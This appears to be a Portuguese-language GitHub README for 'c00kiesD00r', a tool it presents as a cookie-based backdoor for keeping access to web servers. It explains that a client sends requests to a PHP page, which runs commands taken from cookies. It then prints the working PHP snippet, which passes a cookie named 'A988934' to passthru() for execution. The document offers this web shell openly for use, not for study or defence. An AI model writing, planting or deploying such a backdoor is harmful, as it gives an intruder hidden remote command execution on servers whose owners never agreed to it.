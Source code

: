 # c00kiesD00r
Cookies backdoor, aplicação utilizada para manter acesso em servidores Web.
A mesma envia requisições do tipo GET com parametros setados no User-Agent para determinada página PHP, onde a mesma faz a leitura dos cookies recebidos e passa como parâmetro para a função passthru() do PHP para que o comando seja, claro, executado no servidor. O programa faz a leitura do retorno do comando executado no servidor e exibe para usuário.

- PHP Backdoor...

      if (isset($_COOKIE['A988934']) && !empty($_COOKIE['A988934'])) {
        die(passthru($_COOKIE['A988934']));
      }
